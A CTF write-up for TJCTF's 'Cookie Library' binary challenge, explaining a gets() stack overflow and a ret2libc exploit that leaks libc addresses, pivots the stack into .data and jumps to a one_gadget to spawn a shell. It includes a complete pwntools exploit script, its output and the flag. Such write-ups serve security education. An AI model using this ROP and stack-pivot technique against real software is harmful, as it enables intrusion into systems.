

# tjctf: binary

## Cookie Library [90]

Written by KyleForkBomb

_My friend loves cookies. In fact, she loves them so much her favorite cookie changes all the time. She said there's no reward for guessing her favorite cookie, but I still think she's hiding something._

`nc p1.tjctf.org 8010`

## An Exercise in Futility

```sh
$ ./cookie_library
Check out all these cookies!
  - snickerdoodles
  ... (25 lines omitted)
  - white chocolate macadamia nut cookies
Which is the most tasty?
tassies
I'm sorry but we can't be friends anymore
```

Unflattery aside, if we want to guess the right cookie, we'll have to look at the source (minified):

```c
char *cookies[] = {"snickerdoodles", ... };
int main() {
  char s1[76]; // [rsp+0h] [rbp-50h]
  int i; // [rsp+4Ch] [rbp-4h]

  srand(time(0));
  puts("Check out all these cookies!");
  for (i = 0; i <= 27; i++)
    printf("  - %s\n", cookies[i]);
  puts("Which is the most tasty?");
  gets(s1);
  if (!strcasecmp(s1, cookies[rand()%28]))
    puts("Wow, me too!");
  else
    puts("I'm sorry but we can't be friends anymore");
}
```

Simple enough. We'll use `ctypes` to simulate `rand()`, taking our system's clock as the right seed for `srand()`. Putting it together into a pwntools script:
```python
from pwn import *
from ctypes import CDLL
lib = CDLL('libc.so.6')
lib.srand(lib.time(0))
cookie = lib.rand()%28
r = remote('p1.tjctf.org', 8010)
for i in range(cookie+1): r.recvline()
cookie = r.recvline()[4:-1]
r.sendlineafter('?\n', cookie)
r.interactive()
```
We can test it out, and surely enough, we'll get past the `if()` check:
<p align="center">

<br><i>Wow.</i>
</p>
If you didn't realise during the CTF, here's the ticket: _that was completely useless_

## _Library_'s in the name

As its namesake, _Cookie Library_ is a `ret2libc` challenge, that unfortunately has no libc version given.

To get the flag for this challenge, we're going to have to do a number of things:
0. Overwrite the return pointer with `gets()`
1. Figure out how to arbitrary read, because libc addresses need to be leaked
2. Find the libc version using that leak, and get a `one_gadget` offset
3. Simultanously leak libc and write the correct one_gadget address to the overflow in one `remote()` connection.

Like in the previous challenge (`stop`), we'll simply use `cyclic()` and `gdb` to derive the correct offset for the return pointer, which is located at `cyclic_find("waaa")`.

To leak a libc address, we can also repeat what we did in `Stop`, using `pop rsi` and `pop rdi` gadgets to push a "%s" string embedded in `.rodata:400B4B+4` as an argument for `printf()`, leaking libc addresses via the GOT table.

We leak a number of addresses like so (full code in appendix):
```python
rop = leak('rand') + leak('srand')
r.sendlineafter('?\n', 'a'*r_offset+ ''.join(map(p64,rop)))
print('addr of rand:  ' + hex(u64(r.recv(6) + '\0'*2))) #0x7fd470c173a0
r.recvline()
print('addr of srand: ' + hex(u64(r.recv(6) + '\0'*2))) 
```
The stack looks something like this:
```
+---s[]---+----rdi="%s\n"----+----rsi=ELF.got['rand']----+-plt.['printf']->
| garbage | pop rdi | "%s\n" | pop rsi, r15 | <rand> | 0 |    printf()    >
+---88----+--------16--------+-------------24------------+-------8-------->
<----rdi="%s\n"----+----rsi=ELF.got['srand']----+-plt.['printf']-+
< pop rdi | "%s\n" | pop rsi, r15 | <srand> | 0 |    printf()    |
<--------16--------+-------------24-------------+-------8--------+
```

And we get a number of addresses (test yourself with `python cookie.py test`):
```
[+] Opening connection to p1.tjctf.org on port 8010: Done
addr of rand:  0x7f743c6e63a0
addr of srand: 0x7f743c6e5bb0
[*] Closed connection to p1.tjctf.org port 8010
```
We can open up [libc-db](https://github.com/niklasb/libc-database) and figure out just which `libc.so.6` is awaiting abusual:
```sh
libc-database$ ./find rand 0x7f743c6e63a0 srand 0x7f743c6e5bb0
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb (id libc6_2.27-3ubuntu1_amd64)
```
After that, we can have a look at the kind of gadgets we're granted for 2.27:
```sh
libc-database$ one_gadget db/libc6_2.27-3ubuntu1_amd64.so
0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
constraints:
  rsp & 0xf == 0
  rcx == NULL

0x4f322 execve("/bin/sh", rsp+0x40, environ)
constraints:
  [rsp+0x40] == NULL

0x10a38c execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```
The first gadget looks simpler to deal with, but we're forced against the cruft:
```sh
$ ropper -f cookie_library.o --nocolor 2> /dev/null | grep rcx | grep -v '[rcx]' | wc
      0       0       0
```
With no good `rcx` gadgets, we're damned to hit the highway with a `pop rsp`: `0x000000000040092d: pop rsp; pop r13; pop r14; pop r15; ret;`

To avoid having to leak the pre-existing `rsp`, we choose to switch over to a known, non-random non-PIE address to deign as the new `rsp`. The r/w `.data` segment fulfils this role adequately.

Incidentally, this is a blessing in disguise — by switching over to a controlled `rsp`, we're also given a good opportunity to write a secondary ROP chain at the same place, meaning that our overbloated payload is going to look something like this:
```
rop chain 1, written to s1[]:
+---s[]---+----rdi="%s\n"----+----rsi=ELF.got['rand']----+-plt.['printf']->
| garbage | pop rdi | "%s\n" | pop rsi, r15 | <rand> | 0 |    printf()    >
+---88----+--------16--------+-------------24------------+-------8-------->
<----rdi=<.data>----+-plt.['gets']-+-rsp=ELF.symbols['data']-+
< pop rdi | <.data> |    gets()    | pop_rsp_and_3 | <.data> |
<---------16--------+------8-------+------------16-----------+
rop chain 2, written to .data:
+--leftover pops from prev gadget---+----one_gadget-----+-buffer-+-one_gadget requirement-+
|     0     |     0     |     0     | libc_base+0x4f322 |   00   |          NULL          |
+-----------------24----------------+---------8---------+---32---|-----------8------------+
```
We leak libc (via `printf()`), write a secondary rop chain with `gets()`, shift `rsp` to that rop chain, and then jump to the one_gadget.

Works like a charm.

<p align="center">

</p>

## flag

`tjctf{c00ki3_yum_yum_mmMmMMmMMmmMm}`

## code

```python
from pwn import *
from sys import argv
r = remote('p1.tjctf.org', 8010)
#constants
e = ELF('./cookie_library.o')
r_offset = cyclic_find('waaa')  #empirical value
pop_rdi = 0x400933      #from ropper or otherwise
pop_rsi_trash = 0x400931
pop_rsp_and_3 = 0x40092d#scratch space
one_gadget = 0x4f322    #$ one_gadget libc-database/db/libc6...
s_fmt = e.symbols['_IO_stdin_used'] + e.section('.rodata').index('%s')
#helper functions
rdi_rsi = lambda rdi, rsi: [pop_rdi, rdi, pop_rsi_trash, rsi, 0]
leak = lambda got_func: rdi_rsi(s_fmt, e.got[got_func]) + [e.plt['printf']]
#add args when running to test this part of the code
if len(argv) > 1: #LEAKED: libc6_2.27-3ubuntu1_amd64 
    rop = leak('rand') + leak('srand')
    r.sendlineafter('?\n', 'a'*r_offset+ ''.join(map(p64,rop)))
    r.recvline()
    print('addr of rand:  ' + hex(u64(r.recv(6) + '\0'*2))) #0x7fd470c173a0
    r.recvline()
    print('addr of srand: ' + hex(u64(r.recv(6) + '\0'*2))) #0x7fd470c16bb0
else:
    #rop chain 1: get libc addr and write/jmpto a new ropchain
    rop = leak('rand')
    rop+= [pop_rdi, e.symbols['__data_start'], e.symbols['gets']]
    rop+= [pop_rsp_and_3, e.symbols['__data_start']]
    r.sendlineafter('?\n', 'a'*r_offset+ ''.join(map(p64,rop)))
    r.recvline() #trashline
    rand = u64(r.recv(6) + '\0'*2)  #libc of rand()
    one_gadget += rand - 0x443a0
    #rop chain 2: one_gadget, requiring [rsp+0x40] == NULL
    rop2 = [0]*3
    rop2+= [one_gadget]
    r.sendlineafter('\n', ''.join(map(p64,rop2)) + 0x60*'\0')
    r.interactive() #shell
```
